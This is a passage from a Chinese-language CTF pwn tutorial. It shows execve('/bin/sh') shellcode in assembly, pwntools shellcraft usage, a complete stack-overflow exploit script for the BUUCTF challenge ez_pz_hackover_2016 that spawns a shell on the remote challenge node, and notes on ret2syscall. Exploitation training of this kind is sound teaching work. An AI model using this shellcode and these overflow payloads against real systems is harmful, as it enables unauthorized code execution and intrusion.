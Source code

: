 ```
  xor rdx, rdx     
  xor rsi, rsi
  mov rbx, 0x68732f2f6e69622f  
  push rbx
  push rsp 
  pop rdi                       
  push 0x3b
  pop rax
  syscall
```

#### 工具写shellcode

在 pwntools 中，shellcraft 模块用于生成各种类型的 shellcode，例如反弹 shell、执行系统调用等。

```python
shellcraft.sh()	#默认生成的shellcode是32位的
shellcraft.amd64.sh()	#生成64位的
asm(shellcraft.sh())	#把shellcode转成机器码
#例子
shellcode = asm(shellcraft.sh())
```

32位exp，题目来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ez_pz_hackover_2016)

```python
from pwn import *
context(os="linux",arch="i386",log_level="debug")
p=remote('node5.buuoj.cn',27809)
#p=process('./ez_pz_hackover_2016')
p.recvuntil("0x")
stack=int(p.recv(8),16)
print(hex(stack))
p.recvuntil(b"> ")
# gdb.attach(p)
shellcode=asm(shellcraft.sh())
payload=flat(b'crashme\x00',b'a'*(0x16-0x4),p32(stack-0x1c),shellcode)
p.sendline(payload)
p.interactive()
```

### ret2syscall

原理：通过ROP执行系统调用，利用系统调用来执行"/bin/sh"来拿shell

当程序没有system函数时，需要利用ROP，来执行执行execve("/bin/sh",null,null)，32位为int 0x80，64位为syscall ret

```bash
32位下：
  系统调用号，即 eax 应该为 0xb #64位是0x3b
  第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
  第二个参数，即 ecx 应该为 0
  第三个参数，即 edx 应该为 0
```
